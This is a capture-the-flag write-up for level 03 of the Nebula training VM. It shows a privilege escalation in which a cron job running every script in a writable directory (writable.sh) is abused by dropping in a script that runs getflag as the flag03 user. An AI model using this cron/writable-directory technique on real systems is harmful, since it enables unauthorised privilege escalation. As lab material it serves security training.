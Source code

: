 # Nebula - Level 03

### About ###

>Check the home directory of flag03 and take note of the files there.
>
>There is a crontab that is called every couple of minutes.
>
>To do this level, log in as the level03 account with the password level03. Files for this level can be found in /home/flag03.

### Solution ###

`flag03`’s cronjobs can not be seen, but it can be assumed that it executes the script `writable.sh`.

```bash
level03@nebula:/home/flag03$ cat writable.sh
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
  (ulimit -t 5; bash -x "$i")
  rm -f "$i"
done
```

`writable.sh` executes every script located in `writable.d/` in another shell.

```
level03@nebula:/home/flag03$ echo "getflag > /tmp/flag" > writable.d/exec
level03@nebula:/home/flag03$ chmod +x writable.d/exec
```

By creating a script that executes `getflag` in `writable.d/`, it can be successfully executed with `flag03`’s permissions.

```
level03@nebula:/home/flag03$ cat /tmp/flag
You have successfully executed getflag on a target account
```
